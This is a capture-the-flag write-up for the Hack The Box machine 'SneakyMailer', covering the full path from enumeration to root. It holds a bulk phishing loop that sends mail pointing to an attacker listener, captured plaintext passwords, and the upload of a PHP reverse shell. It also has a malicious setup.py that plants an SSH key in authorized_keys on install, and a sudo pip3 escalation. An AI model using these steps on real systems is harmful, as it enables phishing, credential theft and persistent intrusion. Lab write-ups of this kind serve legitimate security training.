




# sneaky mailer


## nmap

PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
25/tcp   open  smtp     Postfix smtpd
80/tcp   open  http     nginx 1.14.2
143/tcp  open  imap     Courier Imapd (released 2018)
993/tcp  open  ssl/imap Courier Imapd (released 2018)
8080/tcp open  http     nginx 1.14.2
Service Info: Host:  debian; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


## httpEnum


Found few email addresses that we can try sending mail to


#### cewl

```
cewl -w emails.txt -e -n sneakycorp.htb
```

- we will use cewl to generate a wordlist of emails
- got a very big wordlist with other words as well
- we can use awk to remove unnecessary words


#### awk

```bash
awk '/@/ {print $1}' wordlist
```


- save the output to a new file for further enumeration

## smtp

- Since the name of box is sneaky mailer lets enumerate smtp
- we have collections of mail lets send a email to click on our link and see through netcat if we can find any data through it


#### swaks

- swaks is also called swiss army knife for smtp.
- it is used to send mail and we can automate sending mail to all of them though a bash loop


```bash
swaks -to <reciever> -from <sender> -body -server mailserver
```


now we will use bash loop to around this and start a netcat listener to see if anyone clicks it

#### bash script

````bash
for mail in $(cat httpenum/emails);do swaks -to $mail -from sneaky@mail.com -body 'click on http://10.10.14.46:8000/' -server '10.10.10.197';done
````


we got something from a user but it is url-encoded lets decode it and see the contents

```
firstName=Paul&lastName=Byrd&email=paulbyrd@sneakymailer.htb&password=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht&rpassword=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```

#### credentials

Username 	paulbyrd

Pass				^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht


lets login into his account using a mail client


## Evolution


We found new credentials for something.


````
Hello administrator, I want to change this password for the developer account
 
Username: developer
Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
 
Please notify me when you do it
````


## ftp


logged in to ftp server found a folder **dev** lets enumerate again with gobuster but this time with vhost option to see if there are anyother subdomains.


## httpenum


- found a subdomain dev.sneakycorp.htb
- we have access to this subdomain through ftp 
- we put a php reverse shell in this lets try to access it via subdomain


## shell


#### enumeration


- found a new sub domain **pypi.sneakycorp.htb**

- also found a file .htpasswd




#### hashcat

found new credentials but it is encrypted we will crack it using hashcat

````
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
````


#### credentials

pypi	:		soufianeelhaoui


## pypi server


#### elevate shell

- we have pypiserver so we can execute it to create python package which when executed we create authroized key in users directory

**.pypirc**

```python
[distutils]                                                                                                                                                              
index-servers = local                                                                                                                                                    

[local]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui

```


**setup.py**

```python
import setuptools

try:
    with open("/home/low/.ssh/authorized_keys", "a")as f:
        f.write("\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDUEZJLy7CYDAg6GIYHfUVUY9vEp/FFM2meK/nSAh6SgZrA0kLOXLA9EaUBksf7FY7xClRtfKHquxpC7ufwOthUjIulKfbbM8gfoRc17phX6NyviYm/nnuDpk2UMxGFdEnhVUIKE60W/ifn7b6KS7ppBDea1BbZEGrsOPLHs27Toy5nc0Arn4n+qN0jSvrfKEgN7Ebphf9FI52C1oy9jwHh0aR4m8JfhezZsDvBUg13BJ1GMnlYe2ijlyJ5H8koMXHT3jYC0/F17r3psG6WZGZ02+NITxpKKwzjPrVm0e7IwLXEBb8PuzF0ga1guENAVeAedb60Jd4CgXMlN7tBfH8IAb2tACEMVV47GFKmCCskwZnSEfkvvYhAFnx9XiVH/6U42jJ1T7ZxGqtNpHFFf+XjwVcYBE2/0Xi1gXZq10ftLEePssEBmZvBVBpDwy82Qt9jS8201qIXjuVQ6Q95twg7kccpXew2m0D8OaUeXObJRxNUea8qj727BH6w3tvY6Ns= )
        f.close()
except Exception as e:
    pass

setuptools.setup(
    name="example-pkg-YOUR-USERNAME-HERE",  # Replace with your own username
    version="0.0.1",
    author="Example Author",
    author_email="author@example.com",
    description="A small example package",
    long_description="long_description",
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    packages=setuptools.find_packages(),
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
)
```


- first we download this repository
- then we change home directory to folder where we saved these 2 files 

```
python3 setup.py sdist register -r local upload -r local
```




- we can sign with private key




## root

- we can run pip3 as sudo privileges 
- we can use gtfo bins to get root privileges in shell

